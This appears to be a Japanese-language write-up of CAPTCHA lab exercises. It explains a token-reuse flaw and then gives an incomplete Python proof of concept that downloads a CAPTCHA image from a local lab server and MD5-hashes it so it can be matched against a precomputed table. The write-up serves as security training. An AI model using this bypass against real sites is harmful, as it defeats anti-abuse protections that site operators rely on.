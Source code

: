 ![833c289399828c7728b422378d09ea91.png](../../_resources/833c289399828c7728b422378d09ea91.png)   
この演習ではトークンの失敗があります。基本的に、キャプチャを一度解決してページを更新すると、情報が何度も送信されます。これは、スクリプトを記述して同じ情報を複数回再送信し、キャプチャをスキップできることを意味します。

# <span style="color: blue;">Example 5</span>
これはデータベースの欠陥で、データベースには少量の画像があり、画像をダウンロードし、そのMD5チェックサムをチェックし、予め設定されたチェックサムテーブルと比較するスクリプトを実行することで悪用される可能性があるのです。

以下のスクリプトは概念実証で、画像を取得し、MD5チェックサムを行い、それを画面に表示し、サーバにリクエストを送り返しますが、ウェブブラウザでページを開きません。 サーバへのトラフィックをスニッフィングして、レスポンス（サーバからの返答で返されるhtmlコード）を見れば、動作を確認することができます。
```python
import http.cookiejar as cookielib, urllib.request
#import cookielib, urllib2, urllib
from lxml import etree
import requests

cj = cookielib.CookieJar()
opener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(cj))
page = opener.open("http://192.168.100.167/captcha/example5/")
page.addheaders = [('User-agent', 'Mozilla/5.0')]
reddit = etree.HTML(page.read())

for img in reddit.xpath('//img/@src'):
    print (img)
a = str(img)
resource = urllib.request.urlopen('http://192.168.100.167/captcha/example5/' + a)
output = open("file01.png","wb")
output.write(resource.read())
output.close()

#md5 hash th image file 

import hashlib
 
hasher = hashlib.md5()
with open('file01.png', 'rb') as afile:
    buf = afile.read()
    hasher.update(buf)
md5 = (hasher.hexdigest())
md5= str(md5) 
print (md5)

string = ""
```